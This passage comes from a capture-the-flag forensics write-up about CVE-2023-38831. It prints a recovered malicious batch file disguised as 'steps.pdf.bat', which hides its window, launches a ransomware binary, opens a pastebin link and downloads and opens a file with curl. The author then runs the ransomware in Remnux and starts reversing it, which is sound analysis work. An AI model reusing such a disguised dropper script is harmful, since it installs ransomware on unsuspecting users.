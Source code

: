 `FLAG: BITSCTF{CVE-2023-38831}` Now, I unlocked the next challenge `Lottery`.

## Scenario 3: Lottery

`Description`

Now that you know the CVE, figure out how the attacker crafted the payload & executed it to compromise the 'secret'.

`Solution`

I continued with the `steps.pdf.bat` for Malware analysis that executes the command:

```bat
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
@echo off
lottery.exe & start chrome -incognito https://pastebin.com/mPvzn0AD & notepad.exe secret.png.enc & curl google.com -o steps.pdf & steps.pdf
exit
```

I then extracted Mogambro's `Downloads` folder and proceed with the `lottery.exe` and `secret.png.enc` file. But now I will be using `Remnux OS` for further malware analysis.

![alt text](images/image-8.png)

I ran the `lottery.exe` file in the `Remnux OS` with `wine` and found that it's a `Ransomware` and encrypted the `secret.png` file.

I now started with reverse engineering the `lottery.exe` and found `pyd` files. So it was built with Python.